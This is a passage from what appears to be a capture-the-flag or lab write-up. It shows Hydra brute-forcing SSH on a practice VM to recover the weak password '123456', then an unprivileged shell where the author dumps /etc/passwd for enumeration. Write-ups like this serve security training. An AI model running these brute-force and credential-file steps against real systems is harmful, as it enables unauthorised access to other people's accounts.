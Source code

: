 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-04-22 20:10:29
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://target:22/
[22][ssh] host: target   login: hummingbirdscyber   password: 123456
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-04-22 20:10:43
root@kali:~# 
{{< / highlight >}}

Well ok, I'll take an unprivileged shell. Thanks, Hydra!`[22][ssh] host: target   login: hummingbirdscyber   password: 123456`

## Unprivileged Shell

Now we had an unprivileged shell, and it was time to do some additional enumeration. I started by grabbing /etc/passwd and checking the user's group memberships.

{{< highlight markdown >}}
hummingbirdscyber@vulnvm:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
hummingbirdscyber:x:1000:1000:hummingbirdscyber,,,:/home/hummingbirdscyber:/bin/bash
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
